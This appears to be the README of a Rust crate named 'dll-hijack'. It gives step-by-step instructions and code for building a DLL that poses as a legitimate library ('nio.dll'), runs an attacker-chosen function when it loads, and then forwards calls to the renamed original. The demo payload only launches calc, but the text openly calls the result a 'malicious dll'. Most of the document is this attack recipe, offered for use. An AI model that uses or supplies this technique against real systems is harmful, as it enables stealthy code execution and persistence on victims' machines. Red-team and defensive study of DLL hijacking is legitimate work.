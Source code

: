 # dll-hijack
Dll hijack -- just one macro

## usage
1. Create a lib project
    ```shell
    cargo new demo --lib
    ```

2. Modify Cargo.toml
   ```toml
   [package]
   name = "demo"
   version = "0.1.0"
   edition = "2021"
   
   # See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.html
   
   [lib]
   crate-type = ["cdylib"]
   
   [dependencies]
   dll-hijack = "1.0.0"
   ```
   
3. Modify lib.rs
   1. Write a function that will be executed when the dll is loaded
       ```rust
      use std::process;
      
       fn test() {
        process::Command::new("calc").spawn().unwrap();
       }
       ```
      
   2. Set the original dll name and evil dll name using macros
      ```rust
      use std::process;
      use dll_hijack::hijack;

      #[hijack("nio.dll", "nio.dll.1")]
      fn test() {
      process::Command::new("calc").spawn().unwrap();
      }
      ```

The malicious dll will be disguised as the original dll, and the malicious dll will execute the malicious function first when loaded.

Then the request for the malicious dll will be forwarded to the original dll.